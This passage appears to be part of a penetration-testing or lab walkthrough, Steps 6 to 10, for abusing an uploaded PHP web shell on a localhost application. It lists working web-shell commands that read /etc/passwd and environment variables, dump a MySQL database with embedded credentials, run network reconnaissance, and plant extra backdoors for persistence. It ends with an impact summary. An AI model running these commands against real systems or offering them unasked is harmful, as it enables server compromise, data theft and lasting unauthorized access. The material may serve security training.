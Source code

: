 **Step 6: Explore the File System**
1. List directory contents:
   ```
   http://localhost:3000/uploads/shell.php?cmd=ls -la
   ```
2. Navigate to different directories:
   ```
   http://localhost:3000/uploads/shell.php?cmd=ls -la /
   http://localhost:3000/uploads/shell.php?cmd=ls -la /app
   ```

**Step 7: Access System Information**
1. View system information:
   ```
   http://localhost:3000/uploads/shell.php?cmd=cat /etc/passwd
   http://localhost:3000/uploads/shell.php?cmd=cat /proc/version
   http://localhost:3000/uploads/shell.php?cmd=env
   ```

**Step 8: Database Access and Exfiltration**
1. Check if MySQL client is available:
   ```
   http://localhost:3000/uploads/shell.php?cmd=which mysql
   ```
2. Dump the database:
   ```
   http://localhost:3000/uploads/shell.php?cmd=mysqldump -u wcorp_user -pwcorp_pass wcorp_db
   ```
3. Access database directly:
   ```
   http://localhost:3000/uploads/shell.php?cmd=mysql -u wcorp_user -pwcorp_pass wcorp_db -e "SELECT * FROM users;"
   ```

**Step 9: Network Reconnaissance**
1. Check network interfaces:
   ```
   http://localhost:3000/uploads/shell.php?cmd=ifconfig
   ```
2. Check open ports:
   ```
   http://localhost:3000/uploads/shell.php?cmd=netstat -tulpn
   ```

**Step 10: Persistent Access**
1. Create additional backdoors:
   ```
   http://localhost:3000/uploads/shell.php?cmd=cp shell.php backup.php
   ```
2. Set up cron jobs for persistence (if possible):
   ```
   http://localhost:3000/uploads/shell.php?cmd=crontab -l
   ```

**Impact:**
- Remote code execution
- System compromise
- Data exfiltration
- Persistent backdoor installation
- Complete server control
